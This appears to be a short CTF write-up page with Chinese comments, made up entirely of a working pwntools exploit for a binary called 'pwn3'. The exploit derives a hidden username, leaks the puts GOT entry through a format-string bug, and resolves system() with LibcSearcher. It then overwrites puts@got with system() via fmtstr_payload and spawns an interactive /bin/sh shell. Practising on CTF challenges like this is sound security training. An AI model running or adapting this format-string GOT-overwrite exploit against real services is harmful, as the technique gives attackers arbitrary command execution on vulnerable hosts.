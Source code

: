 




# exploit

- 封装部分交互逻辑为函数版：

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')

def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data

def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)

tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1) # 通过IDA分析得到的正确的用户名
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline(name) # send name # 用计算得出的正确用户名，通过一开始的用户名校验

puts_got = pwn3.got['puts'] # get the addr of puts # 获取 puts 函数的got表项地址
log.success('puts got : ' + hex(puts_got)) # log
put('1111', b"%8$s" + p32(puts_got)) # 调用自定义的put函数 完成put交互
puts_addr = u32(get('1111')[:4]) # 获取puts函数的真实地址 # 调用自定义的函数get

# get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

# modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
# gdb.attach(sh)
sh.sendline('/bin/sh;')
sh.sendline('dir') # system('/bin/sh')
sh.interactive()
```
